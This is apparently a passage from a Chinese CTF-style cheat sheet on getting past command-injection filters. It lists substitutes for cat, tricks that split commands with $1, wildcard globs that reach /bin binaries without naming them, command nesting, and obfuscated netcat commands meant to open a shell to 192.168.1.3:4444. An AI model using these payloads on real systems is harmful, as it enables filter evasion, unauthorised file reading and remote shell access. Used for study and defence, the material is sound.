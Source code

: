 ```
ca$1t fl$1ag.t$1xt
```

### 读文件绕过

```
(1)more:一页一页的显示档案内容
(2)less:与 more 类似，但是比 more 更好的是，他可以\[pg dn\]\[pg up\]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
(5)tail:查看尾几行
(6)nl：显示的时候，顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容
```

### 通配符绕过

/??? 会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到 / bin，然后 /?\[a\]\[t\] 会优先匹配到 / bin/cat, 就成功调用了 cat 命令，然后后面可以使用正常的通配符匹配所需读的文件，如 flag.txt 文件名长度为 8，使用 8 个?’’，此命令就会读取所有长度为 8 的文件。

```
/???/?\[a\]\[t\] ?''?''?''?''?''?''?''?''
```

同理，我们也可以匹配 / bin 下的其他命令，如 more，less，vi，tail 等命令来查看文件，或者执行其他命令。

```
/???/\[m\]\[o\]?\[e\] ?''?''?''?''?''?''?''?''
```

```
/???/\[t\]?\[i\]\[l\] ?''?''?''?''?''?''?''?''
```

甚至开启一个 shell  

```
/???/\[n\]?\[t\]??\[t\] -lvp 4444
```

```
/???/\[n\]?\[t\]??\[t\] 192.168.1.3 4444
```

### 命令嵌套

```
echo "result:\`whoami\`"
```

```
echo "result:$(uname -a)"
```
